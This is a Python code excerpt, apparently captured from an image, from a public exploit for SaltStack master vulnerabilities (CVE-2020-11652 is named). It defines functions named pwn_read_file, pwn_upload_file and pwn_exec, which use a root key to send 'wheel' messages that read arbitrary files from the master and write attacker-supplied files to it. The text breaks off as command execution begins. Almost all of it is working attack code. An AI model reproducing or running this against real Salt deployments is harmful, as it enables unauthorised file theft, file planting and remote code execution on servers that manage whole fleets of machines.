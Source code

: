```python

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
    if rets['data']['return'].startswith('Wrote'):
      try:
        os.remove('/tmp/salt_CVE_2020_11652.conf')
      except OSError:
        print("Maybe?")
      else:
        print("YES")
    else:
      print("NO")

def pwn_read_file(channel, root_key, path, master_ip):
    print("[+] Attemping to read {} from {}".format(path, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.read',
        'path': path,
        'saltenv': 'base',
    }

    rets = channel.send(msg, timeout=3)
    print(rets['data']['return'][0][path])

def pwn_upload_file(channel, root_key, src, dest, master_ip):
    print("[+] Attemping to upload {} to {} on {}".format(src, dest, master_ip))
    sys.stdout.flush()

    try:
        fh = open(src, 'rb')
        payload = fh.read()
        fh.close()
    except Exception as e:
        print('[-] Failed to read {}: {}'.format(src, e))
        return

    msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.write',
        'saltenv': 'base',
        'data': payload,
        'path': dest,
    }

    rets = channel.send(msg, timeout=3)
    print('[ ] {}'.format(rets['data']['return']))

def pwn_exec(channel, root_key, cmd, master_ip, jid):
    print("[+] Attemping to execute {} on {}".format(cmd, master_ip))
```